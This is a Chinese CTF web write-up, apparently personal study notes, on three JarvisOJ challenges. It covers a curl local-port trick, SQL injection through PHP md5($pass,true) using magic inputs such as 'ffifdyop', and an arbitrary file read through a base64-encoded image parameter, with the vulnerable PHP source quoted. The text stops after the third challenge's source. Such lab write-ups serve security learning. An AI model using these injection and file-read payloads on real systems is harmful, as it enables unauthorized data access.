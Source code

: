 # 对CTF-Web的记录与总结 #

### 使用本地的某个端口号对网址进行访问 ###

[例题:JarvisOJ PORT51](http://web.jarvisoj.com:32770/)

curl 参数 --local-port RANGE  强制使用的本地端口号

***payload***
`curl --local-port 51 http://web.jarvisoj.com:32770/`

(在做题的时候貌似出了问题 没有回显)

### php中md5($str,true)注入 ###

[例题:JarvisOJ Login](http://web.jarvisoj.com:32772/)

```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```

关键在于md5函数的第二个参数为true

- TRUE - 原始 16 字符二进制格式
- FALSE - 默认 32 字符十六进制数

例如输入为: `asdf` 时

得到md5为 `912ec803b2ce49e4a541068d495ab570` 这是false的情况

得到的16字符为 `.È²ÎIä¥AIZµp` 这是true的情况

当转换出的字符能够进行sql注入时即可提取flag

当输入为`129581926211651571912466741651878684928`或`ffifdyop`均能得到flag

```
129581926211651571912466741651878684928
md5: 06da5430449f8f6f23dfc1276f722738
ascii: ÚT0Do#ßÁ'or'8
```

```
ffifdyop
md5: 276f722736c95d99e921722cf9ed621c
ascii: 'or'6É]é!r,ùíb
```

### 神盾局的秘密 ###

[例题:JarvisOJ 神盾局的秘密](http://web.jarvisoj.com:32768/)

`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`

显然存在文件读取漏洞，并且文件名进行了base64加密

尝试对showimg.php进行读取，构造payload

`http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=`

得到空白页面，查看源代码

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```
